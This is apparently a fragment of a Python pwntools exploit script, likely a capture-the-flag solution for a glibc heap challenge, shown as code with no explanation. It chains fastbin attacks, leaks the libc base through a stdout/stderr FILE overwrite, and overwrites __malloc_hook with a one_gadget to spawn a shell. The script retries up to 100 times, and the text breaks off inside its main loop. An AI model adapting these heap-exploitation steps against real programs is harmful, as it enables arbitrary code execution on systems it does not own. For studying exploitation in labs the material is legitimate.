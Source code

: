 ```python
	rm(2) # chunk for fastbin attack
	ad(0x28, 'A' * 0x28) #idx 1

	p = 'B' * 0x30
	p += p64(0)
	p += p64(0x71)
	p += '\xdd\x25'
	ad(0x38, p) #idx 2

	ad(0x68, 'A') #idx 4 for ajust fastbin 

	#p = 'A' * 0xA

	p = '\x00' * 0x33
	p += p64(0x00000000fbad1800) #flag
	p += p64(0) * 3
	p += p8(0)
	ad(0x68, p) #idx 5
	lib.address = u64(ru('\x7f')[-5:] + '\x7f\x00\x00') - lib.sym['_IO_2_1_stderr_'] - 192

	li('lib_base ' + hex(lib.address))

	# fastbin attack to malloc_hook -0x23
	rm(4)
	rm(2)

	p = 'B' * 0x30
	p += p64(0)
	p += p64(0x71)
	p += p64(lib.sym['__malloc_hook'] - 0x23)
	ad(0x38, p)
	ad(0x68, 'A')

	# modify malloc_hook as one_gadget
	gadget = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
	one_gadget = lib.address + gadget[2]
	p = '\x11' * (0x13 - 8)
	p += p64(one_gadget)
	p += p64(lib.sym['realloc'] + 20)
	ad(0x68, p)

	# get shell
	sl('1')
	sl('10')


def finish():
	ia()
	c()

#--------------------------Main-----------------------------
if __name__ == '__main__':
	
	for i in range(100):
		try:
			if LOCAL:
				exe = ELF(exeFile)
				if LIB:
					lib = ELF(libFile)
					io = exe.process(env = {"LD_PRELOAD" : libFile})
				else:
					io = exe.process()
			
```